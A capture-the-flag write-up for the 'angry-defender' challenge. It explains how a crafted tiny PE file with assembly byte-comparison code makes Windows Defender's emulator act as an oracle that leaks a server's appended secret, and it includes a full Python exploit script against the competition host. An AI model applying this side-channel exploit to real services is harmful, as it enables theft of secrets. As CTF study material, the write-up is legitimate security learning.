

# Description

> The flag is everywhere. You just need to catch it.
>
> Hint: Javascript doesn't make Defender angry enough.

# Analysis

```python
SECRET = os.environ["FLAG"].encode("ascii")
MAX_DATA_SIZE = 1024 * 1024
CACHE_FOLDER = "c:\\storage"
CACHE_SIZE = 256
```

- Constants tell us this application is running under windows system because the path has driver volume (`C:`)

```python
@app.route("/cache", methods=["PUT"])
def put() -> str:
    data = request.data
    if MAX_DATA_SIZE < len(data):
        abort(403)
    id = uuid.uuid4()
    lru.write(id.hex, data + SECRET)
    return str(id)
```

- `cache` handler appends the flag after our input and just return the key of lru cache.


```python
@app.route("/cache/<key>", methods=["GET"])
def get(key: str) -> bytes:
    id = uuid.UUID(key)
    try:
        blob = lru.read(id.hex)
    except KeyError:
        abort(404)
    data = blob[: -len(SECRET)]
    if data + SECRET != blob:
        abort(500)
    return data
```

- and then we can compare a http status code to see if someone(ok, windows defender) changed or deleted our input (=file).
- It's another version of icchy's [slide](https://speakerdeck.com/icchy/lets-make-windows-defender-angry-antivirus-can-be-an-oracle). 
- Unfortunately, we cannot add trailing bytes after the flag, it means, we cannot make a valid string token.

# Exploitation

**Windows Defender's Emulator is AWESOME**  

- According to Alexi's [slide](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf), windows defender also emulates a PE format exe.
- `MAX_DATA_SIZE` is < 1MB, we had to make a tiny PE file and would allow the flag to be recongnized as code(or attach to a memory).
- The first try is [http://www.phreedom.org/research/tinype/](http://www.phreedom.org/research/tinype/).



- good,
- we searched a lot on google but we could not find any way to an emulator to detect as virus.
- soon, I remember that rpisec is doing an malware traning course [https://github.com/RPISEC/Malware](https://github.com/RPISEC/Malware). their hacking skills are nice (as far as i know), so they have a tiny pe with malware sample? (I know that this was not a logical thinking. Yes I was lucky XD)
- after downloading a lecture 4, windows defender detected it as a malware. and then I added a '\xcc' (int 0x3) to the first code offset (0x200), surprisingly windows defender did not detect as a malware.

```python
#!/usr/bin/env python2 
# flag: p4{c4n_y0u_pr1n7_73n5h4-h0_w17h0u7_b07h_h4nd5?}
import requests
import time
import string

# 31 C0 83 F8 01 EB 01 90 90 CC CC
a = open('juno.exe', 'rb').read() # is inside a same directory.

b = a[:512]
c = a[512:]

from pwn import *

import string

def gogo(index, t):
    payload = asm(('''
            call a
            a:
            pop ebx
            add ebx, %d
            xor eax, eax
            mov al, byte ptr [ebx]
            cmp al, {what}
            jz b
            int 0x3
            b:
            ''' % (len(c) + 0x10 + index)).format(what=ord(t)))

    a = b + payload + c

    tmpkey = requests.put('http://angry-defender.zajebistyc.tf/cache', data=a).text
    res = requests.get('http://angry-defender.zajebistyc.tf/cache/{tmpkey}'.format(tmpkey=tmpkey))
    if res.status_code == 500:
        print 'wtf[%d]="%s"' % (index, t)


index = 0

import sys


# for i in xrange(36, 40):
for t in string.printable:
    t = threading.Thread(target=gogo, args=(int(sys.argv[1]), t))
    # t = threading.Thread(target=gogo, args=(i, t))
    t.start()

a = raw_input()
```
